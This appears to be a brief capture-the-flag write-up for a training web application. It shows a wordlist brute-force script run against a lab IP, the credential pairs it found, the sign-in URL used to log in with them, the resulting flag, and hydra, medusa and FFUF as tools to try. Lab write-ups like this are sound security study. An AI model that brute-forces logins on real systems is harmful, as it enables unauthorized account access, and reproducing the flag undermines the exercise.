 

db from rockyou wordlist
```
➜  Breach10- git:(main) ✗ sh Ressources/script.sh 10.12.100.231 Ressources/db.txt Ressources/db.txt 
Success: Credentials found, Username - eugene & Password - shadow
Success: Credentials found, Username - evelyn & Password - shadow
Success: Credentials found, Username - excel & Password - shadow
```

`http://IP/?page=signin&username=eugene&password=shadow&Login=Login`

THE FLAG IS : `B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

tools u can try:

hydra 

medusa 

FFUF